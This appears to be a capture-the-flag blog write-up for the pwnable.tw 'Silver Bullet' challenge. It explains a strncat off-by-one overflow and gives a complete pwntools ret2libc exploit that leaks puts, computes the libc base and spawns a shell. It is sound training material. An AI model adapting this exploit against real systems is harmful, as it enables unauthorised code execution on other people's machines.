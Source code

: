 ```yaml
---
layout: post
title: Silver Bullet writeup [pwnable.tw]
subtitle: Series of Pwnable.tw Writeups
tag: [pwn, pwnable.tw, writeup]
---
```


# Silver Bullet \[200pts\] (pwnable.tw)

![](https://i.etsystatic.com/5962934/d/il/76350c/2345639591/il_340x270.2345639591_2cgb.jpg)

> Please kill the werewolf with silver bullet!
>
> `nc chall.pwnable.tw 10103`
>
> [silver_bullet](https://github.com/th3-5had0w/CTF-contests/raw/master/pwnable.tw/Silver_Bullet/silver_bullet)
>
> [libc.so](https://github.com/th3-5had0w/CTF-contests/raw/master/pwnable.tw/Silver_Bullet/libc_32.so.6)

- Content:
    - [Vulnerability](#vulnerability)
    - [Exploit](#exploit)

# Vulnerability

After wondering around for a while, i discover a bug in function `power_up`:
```c
int __cdecl power_up(char *dest)
{
  char s[48]; // [esp+0h] [ebp-34h] BYREF
  size_t v3; // [esp+30h] [ebp-4h]

  v3 = 0;
  memset(s, 0, sizeof(s));
  if ( !*dest )
    return puts("You need create the bullet first !");
  if ( *((_DWORD *)dest + 12) > 47u )
    return puts("You can't power up any more !");
  printf("Give me your another description of bullet :");
  read_input(s, 48 - *((_DWORD *)dest + 12));
  strncat(dest, s, 48 - *((_DWORD *)dest + 12)); // <-- the vulnerability here
  v3 = strlen(s) + *((_DWORD *)dest + 12);
  printf("Your new power is : %u\n", v3);
  *((_DWORD *)dest + 12) = v3;
  return puts("Enjoy it !");
}
```

The program allowed to `strncat` upto `n` bytes, which was supposed to be `n-1` bytes, because as strncat manual says:
```If src contains n or more bytes, strncat() writes n+1 bytes to dest (n from  src plus the terminating null byte). Therefore, the size of dest must be at least strlen(dest)+n+1```

## strncat misuse - references:

[[1] Beware of strncpy() and strncat() - eklitzke](https://eklitzke.org/beware-of-strncpy-and-strncat)

[[2] strncpy() and strncat() - Daniel Plakosh](https://us-cert.cisa.gov/bsi/articles/knowledge/coding-practices/strncpy-and-strncat)

From that, we got `1-byte buffer overflow`, where the null-byte will overwrite the size of "the description of the bullet", the size will be reset back to 0, so we can trick the program into concatenating to a string longer than 47 bytes, which will be a buffer overflow ==> We control the `main` function's return pointer (EIP), and also the power of the bullet, after we "kill the wolf", the program execution flow will be redirected to the address we want.

# Exploit

I wrote a code to leak libc and then return back to the main function to get another chance of redirecting the program execution flow. Here we are leaking the libc address of `puts` function
```python
#--init--
print(io.recvuntil(b'choice :'))
io.sendline(b'1')
print(io.recvuntil(b'description of bullet :'))
init_pl = b'A'*47
io.sendline(init_pl)
#--------


#-- phase 1 - leak libc --
payload = b'A'
power_up(payload)
payload = b'A'*7+p32(elf.sym['puts'])+p32(elf.sym['main'])+p32(elf.got['puts'])
power_up(payload)
beat()
print(io.recvuntil('Sorry ... It still alive !!'))
beat()
print(io.recvuntil('Oh ! You win !!'))
a = io.recv()
print(a.split(b'\n'))
#-------------------------


#leak libc

libc.address = u32(a.split(b'\n')[1])-libc.sym['puts']
print('[+] Base libc: ', hex(libc.address))

#---------
```

After having the `puts` libc address, we could subtract the offset and got the base address of libc. And from libc base address, we got `system()` address and `/bin/sh` string address.

The program now has been redirected to the `main` function again, reusing the vulnerability, we will spawn a shell:
```python
#-- phase 2 - exploit --

io.sendline(b'1')
print(io.recvuntil(b'description of bullet :'))
init_pl = b'A'*47
io.sendline(init_pl)


payload = b'A'
power_up(payload)
payload = b'A'*7+p32(libc.sym['system'])+p32(libc.sym['exit'])+p32(next(libc.search(b'/bin/sh')))
power_up(payload)
beat()
print(io.recvuntil('Sorry ... It still alive !!'))
beat()
print(io.recvuntil('Oh ! You win !!'))
print(io.recv())
io.interactive()
#-------------------------
```

Wise words from my master: 

> "Instead of `b'A'*7` you could use `b'\xff\xff\xff'+b'A'*4` to kill the wolf in one time"

```python
from pwn import *

io = process('./silver_bullet')
#io = remote('chall.pwnable.tw', 10103)
#libc = ELF('libc_32.so.6')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('./silver_bullet')

def power_up(des):
    print(io.recvuntil(b'choice :'))
    io.sendline(b'2')
    print(io.recvuntil(b'description of bullet :'))
    io.sendline(des)

def beat():
    print(io.recv())
    io.sendline(b'3')

#--init--
print(io.recvuntil(b'choice :'))
io.sendline(b'1')
print(io.recvuntil(b'description of bullet :'))
init_pl = b'A'*47
io.sendline(init_pl)
#--------


#-- phase 1 - leak libc --
payload = b'A'
power_up(payload)
payload = b'A'*7+p32(elf.sym['puts'])+p32(elf.sym['main'])+p32(elf.got['puts'])
power_up(payload)
beat()
print(io.recvuntil('Sorry ... It still alive !!'))
beat()
print(io.recvuntil('Oh ! You win !!'))
a = io.recv()
print(a.split(b'\n'))
#-------------------------


#leak libc

libc.address = u32(a.split(b'\n')[1])-libc.sym['puts']
print('[+] Base libc: ', hex(libc.address))

#---------


#-- phase 2 - exploit --

io.sendline(b'1')
print(io.recvuntil(b'description of bullet :'))
init_pl = b'A'*47
io.sendline(init_pl)


payload = b'A'
power_up(payload)
payload = b'A'*7+p32(libc.sym['system'])+p32(libc.sym['exit'])+p32(next(libc.search(b'/bin/sh')))
power_up(payload)
beat()
print(io.recvuntil('Sorry ... It still alive !!'))
beat()
print(io.recvuntil('Oh ! You win !!'))
print(io.recv())
io.interactive()
#-------------------------
```